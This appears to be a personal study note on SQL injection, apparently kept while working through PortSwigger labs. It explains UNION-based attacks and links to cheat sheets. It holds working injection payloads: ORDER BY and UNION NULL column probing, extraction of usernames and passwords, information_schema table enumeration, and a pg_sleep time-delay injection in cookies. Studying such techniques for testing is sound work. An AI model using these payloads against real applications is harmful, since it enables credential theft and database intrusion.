 # SQL Injection
Tags: #sqli #database
Related to: [[oracle]]
See also:
Previous:

## Links
Title: Portswigger SQLi cheatsheet
Link: https://portswigger.net/web-security/sql-injection/cheat-sheet
Description: Useful payloads for SQLi testing. Has different modifications per database

Title: Find Table Names for SQL Injection
Link: https://www.sqlinjection.net/table-names/
Description: More info into actually getting table info from schema tables. More in detail than the Portswigger cheatsheet

## Notes
- You don't need to SELECT FROM something (e.g. `SELECT 1`, `SELECT NULL,NULL`)
- Swap out `--` for `#` sometimes. It may cause an error in some cases and not in others


### UNION attack
-  How many columns are being returned from the original query?
- Which columns returned from the original query are of a suitable data type to hold the results from the injected query?
e.g.: `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

`' ORDER BY 1--  
' ORDER BY 2--  
' ORDER BY 3--`
`' UNION SELECT NULL--  
' UNION SELECT NULL,NULL--  
' UNION SELECT NULL,NULL,NULL--`

### Joining multiple resutls into one column
e.g. in the case where you want two strings from different columns, but only one column in the original query uses the string type.

In the below example, column 1 does not support strings, but column2 does. This gives us `username~password` from the users table..

`' UNION SELECT null,username || '~' || password FROM users--`

### Getting table names
Non-Oracle:
`' UNION SELECT table_name,NULL from information_schema.tables--`

### SQLi into Cookies
Use concantenation to avoid using semi-colons or spaces that can fuck up how the Request is parsed

Comments at the end are still necessary,e.g.
`x'||pg_sleep(10)--`